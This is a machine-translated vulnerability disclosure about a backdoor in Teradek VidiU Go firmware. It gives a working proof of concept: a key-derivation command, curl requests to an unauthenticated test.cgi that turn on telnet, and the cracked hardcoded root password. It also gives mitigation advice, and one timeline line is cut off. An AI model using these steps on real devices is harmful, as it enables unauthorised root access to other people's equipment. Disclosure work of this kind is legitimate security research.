





# 充分披露:0 天 RCE 后门在 Teradek IP 视频设备固件

> 原文：<https://infosecwriteups.com/full-disclosure-0-day-rce-backdoor-in-teradek-ip-video-device-firmwares-85a16f346e15?source=collection_archive---------0----------------------->

## 这是一个 0 天后门程序的报告，允许远程根外壳访问 Teradek IP 视频设备。去年向制造商报告了这个问题，从那以后他们发布了新的固件版本，但是还没有修复。这就是为什么在这里这是完全的揭露。概念证明如下。

# 关于设备

[Teradek](https://teradek.com/) IP 视频设备是实时流设备，能够将视频输入(如 SDI、HDMI 等)编码为支持以太网传输的各种流格式。Teradek 生产的 IP 视频设备各不相同，但固件似乎非常相似(尤其是在后门功能方面)。我们已经分析了一个 [Teradek VidiU Go](https://teradek.com/collections/vidiu-go-family) 模型。


Teradek VidiU Go IP 视频流设备

默认情况下，该设备有一个以太网接口和一个可通过 http:// <device_ip>访问的 Web 管理接口。Web 管理界面受用户定义的密码保护。</device_ip>



Teradek VidiU Go 上用户自定义密码的登录提示

# 反转固件

[可从制造商网站下载](https://teradek.com/pages/downloads)固件映像。这些图像是未加密、未受保护的 Squashfs 文件，可以使用 [squashfs-tools](https://github.com/plougher/squashfs-tools) 轻松解压。

VidiU Go 设备的[固件](https://teradek.com/pages/downloads#vidiu-go)构建在 ARM64 Linux 内核上。我们已经分析了 3.1.12 版本(2020 年)，但是最新的 3.1.13 在这个报告的方面是完全一样的。

内置 lighttpd 服务器的 Webroot 是/home/www。文件夹/home/www/cgi-bin 包含。cgi 二进制文件，还有重要的依赖项(如。所以库)放在/usr/lib 文件夹中。

有很多有趣的函数需要分析，并且可能会发现更多的漏洞，但是让我们把重点放在/home/www/cgi-bin/test.cgi 中的后门访问函数上。



Ghidra 的反向测试. cgi

在牛逼的 [Ghidra](https://ghidra-sre.org/) 工具的帮助下，对 test.cgi 的 main()函数进行一个简短的基本逆向工程过程后，很容易看出

*   `http://<ip_of_the_device>/cgi-bin/test.cgi`无需认证即可访问
*   用 GET 参数`command=remote-access test.cgi`调用`/usr/share/system/remote-access.sh`用参数 start/stop 依赖于另一个 GET 参数 enable=0/1
*   脚本`/usr/share/system/remote-access.sh`启动/停止 telnetd，允许任何人通过网络访问设备上的 23/tcp 端口。
*   为了使用`command=remote-access`，应提供一个与`td_license_create(“tdtest”, 0, 0)`相比较的合适的关键参数。

# 反转关键计算

td_license_create()函数在 libtd.so 库中实现。



逆转加密密钥生成

颠倒加密函数显示密钥计算如下:

```
td_license_create(“tdtest”, 0, 0) = SHA1(SHA512(“0x5f3759df<MAC_ADDRESS_OF_DEVICE>tdtest”))
```

这意味着密钥计算所需的一切都被硬编码在通用固件中，只有 MAC 地址部分与设备相关。因为 MAC 地址对于同一个局域网的人来说很容易知道，所以可以计算出打开 telnet 接口的密钥。

# 启用 Telnet 接口

因此，可以使用 OpenSSL 的以下 Linux 命令来计算所需的密钥(以 MAC 地址 DE:AD:BE:EF:00:00 为例):

```
echo -n 0x5f3759dfDE:AD:BE:EF:00:00tdtest | openssl dgst -sha512 -binary — | openssl dgst -sha1 — | cut -d’ ‘ -f2
```

结果是:`2f1a4cf8d815c99f70268c0873c9dffb13015052`。

现在，可以使用以下 GET 请求启用 telnet 接口(假设设备 IP 是 192.168.0.10):

```
curl 'http://192.168.0.10/cgi-bin/test.cgi?key=2f1a4cf8d815c99f70268c0873c9dffb13015052&command=remote-access&enable=1'
```

HTTP 响应为 500(如果密钥错误，则为 404)，但是 telnet 接口被启用。

要禁用，只需使用`enable=0`:

```
curl 'http://192.168.0.10/cgi-bin/test.cgi?key=2f1a4cf8d815c99f70268c0873c9dffb13015052&command=remote-access&enable=0'
```

# 根凭据

现在 Telnet 已启用，连接会给出一个登录提示。对于凭证，在固件映像中查找`/etc/shadow`:

```
root:HjMedVB3oPf0o:11851:0:99999:7:::
```

不错，这是一个传统的弱 Unix crypt() DES hash，在很短的时间内(大约 3 天)100%可破解。此外，破解后，密码被证明是非常脆弱的，但这并不重要，我们无论如何都会破解它。

root 访问的破解凭据:

```
root:upsetdac
```

游戏结束。具有(本地)网络访问权限的任何人都可以枚举 MAC 地址，可以计算启用 telnet 所需的密钥(使用硬编码的值)，可以启用 telnet 接口(无需提供任何额外的凭据，无论用户定义的密码是什么)，并且可以以 root 用户身份远程登录(使用硬编码的静态 root 用户密码)并拥有设备。

# 概念证明摘要

1.  枚举 MAC 地址(`DE:AD:BE:EF:00:00`)
2.  计算关键:`echo -n 0x5f3759dfDE:AD:BE:EF:00:00tdtest | openssl dgst -sha512 -binary — | openssl dgst -sha1 — | cut -d’ ‘ -f2`(结果是`2f1a4cf8d815c99f70268c0873c9dffb13015052`)
3.  启用远程登录:`curl ‘http://192.168.0.10/cgi-bin/test.cgi?key=2f1a4cf8d815c99f70268c0873c9dffb13015052&command=remote-access&enable=1'`
4.  使用用户`root`和密码`upsetdac`登录`telnet 192.168.0.10`。



用于在 Teradek VidiU Go 上启用 telnet + root 登录的 PoC



用于禁用 Teradek VidiU Go 上的 telnet 接口的 PoC

# 受影响的固件

*   Teradek VidiU Go 3.1.12(发布于 2020 年 6 月 8 日)
*   Teradek VidiU Go 3.1.13(发布于 2021 年 5 月 10 日，撰写本文时最新发布)
*   可能还有用于其他设备的其他 Teradek 固件(在其他固件中看到了相同的代码和相同的硬编码哈希，但是需要测试)。

# 减轻

没有修复，制造商应该知道这个后门，但显然不感兴趣，不打算打补丁。所以解决办法只有缓解。

因为没有办法禁用后门程序和/或更改硬编码的密钥/密码，唯一的缓解措施是向 web 界面添加另一层(网络/反向代理)保护层(除了用户定义的密码之外):只限制可信网络/用户对 web 界面(或设备)的访问。

例如，将其置于 NAT/防火墙之后，并使用一些安全服务(如 SSH 隧道或反向代理，仅对受信任的用户进行身份验证)通过凭证来访问设备。

# 时间表

12–01–2020:联系 Teradek，开始负责任的披露过程
12–11–2020:再次联系 Teradek，因为没有回复
12–14–2020:tera dek 询问细节
12–15–2020:分享一些细节
12–15–2020:tera dek 询问更多细节
12–15–2020:分享一些更多细节
020

# 更新

在发布这份完整的披露报告后的 24 小时内，Teradek 回复了(在 Twitter 上，在这里，在线程:[https://twitter.com/an0n_r0/status/1433591276369219585](https://twitter.com/an0n_r0/status/1433591276369219585))并承诺在 2 周内修复。太棒了，谢谢！:)